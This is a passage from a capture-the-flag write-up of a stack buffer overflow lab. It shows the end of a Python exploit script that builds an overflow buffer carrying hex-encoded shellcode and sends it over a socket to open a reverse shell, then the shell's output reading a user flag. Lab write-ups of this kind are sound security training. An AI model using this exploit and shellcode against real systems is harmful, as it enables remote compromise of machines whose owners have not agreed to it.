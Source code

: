 ```python
 "\xd8\x0b\xcd\x49\xb3\xdb\x88\xa1\x04\x9d\x94\xef\xf2\x41"
 "\x24\x46\x43\x7e\x89\x0e\x43\x07\xf7\xae\xac\xd2\xb3\xcf"
 "\x4e\xf6\xc9\x67\xd7\x93\x73\xea\xe8\x4e\xb7\x13\x6b\x7a"
 "\x48\xe0\x73\x0f\x4d\xac\x33\xfc\x3f\xbd\xd1\x02\x93\xbe"
 "\xf3"
)

postfix = ""

# Build and send the buffer
buffer = prefix + overflow + retn + padding + payload + postfix

print(f"[+] Connecting to {ip}:{port}...")
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
 s.connect((ip, port))
 print(f"[+] Sending {len(buffer)} bytes payload...")
 s.send(buffer.encode('latin-1') + b"\r\n")
 print("[+] Payload sent.")

print("[+] Done. Check your listener for a shell!")

```

We need to start a listener and launch the exploit:

![Pasted image 20250530172927.png](../../IMAGES/Pasted%20image%2020250530172927.png)

We got access as user `natbat`, let's get our user flag and begin privilege escalation:

```
C:\Users\natbat\Desktop>type user.txt.txt
{H4lf_W4y_Th3r3}

The buffer overflow in this room is credited to Justin Steven and his
"dostackbufferoverflowgood" program. Thank you!
```


Let's begin privilege escalation.
